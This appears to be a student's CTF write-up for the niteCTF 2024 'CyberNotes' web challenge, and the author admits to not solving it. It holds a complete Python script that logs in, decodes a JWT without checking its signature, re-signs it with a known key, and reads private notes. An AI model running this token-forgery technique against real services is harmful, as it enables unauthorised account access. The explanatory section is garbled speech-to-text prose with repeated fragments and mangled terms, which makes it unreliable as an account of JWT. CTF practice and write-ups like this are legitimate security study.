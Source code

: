 DID NOT SOLVE ANY OF THE CHAL
# CYBERNOTES
## step 1
import jwt
import json
import requests

USERNAME = "D3aDs0ck"
PASSW = "bluM#_M@y_N3vr"
KEY = "H6jga21h1"

# URL = "http://127.0.0.1:5000/"
URL = "https://cyber-notes.chalz.nitectf2024.live/"

print("USERNAME:", USERNAME)
print("PASSWORD:", PASSW)
print("JWT KEY:", KEY)
print("URL:", URL)

# Get fake JWT
payload = json.dumps({
    "username": USERNAME,
    "password": PASSW
})
response = requests.request(
    "POST", URL+"api/login",  data=payload, headers={'Content-Type': 'application/json'})

fake_token = json.loads(response.text)["token"]

print("FAKE TOKEN:", fake_token)

# Sign fake jwt with real key to get real key
decoded = jwt.decode(fake_token, options={"verify_signature": False})
new_token = jwt.encode(decoded, KEY, algorithm='HS256')
print("REAL TOKEN:", new_token)

# Use new token to get real notes
payload = json.dumps({
    "username": USERNAME,
    "password": PASSW
})
response = requests.request("GET", URL+"api/notes",
                            headers={'Authorization': "Bearer " + new_token})

print(response.text)
## step 2
The goal of the challenge is to bypass a login system and access the private nodes which is basically the flag the challenge uses J W days to authenticate users
 the challenge uses J W days to authenticate users. J W T is a way for the server to tru....every request to prove their identity
 J W T is a way for the server to trust the user after logging in the server gives the user a token the user sends his token in every request to prove their identity
The first part of the script consists of variables username password which is basically to log into the w.... endpoint and gets a token end router
 which is basically to log into the website with the usernames and passwords it sends a request to login endpoint and gets a token end router
But here the token is fake in the sense it doesn't have a proper security cheque now this decode the fake job
 now this decode the fake job Yadav decoded equal to JW Dot decode fake token it decorates a token without showing....he token but doesn't verify if it was
 it decorates a token without showing its validity this means it can see the content of the token but doesn't verify if it was

Now let's access the new private data using the new token and get the flag
basically run this python pgm in a compiler or wsl
using vi new,py
add the code
and run python3 new.py

## what i learnt
JWT
understood some part of the code..but still have a little confusion
as im not familiar to how to interact withn a wwebsite using pyhton
## other methods
Use compiler or the wsl terminal to run pgm
## refernces
https://github.com/Cryptonite-MIT/niteCTF-2024/blob/main/webex/cybernotes/solution/solve.py





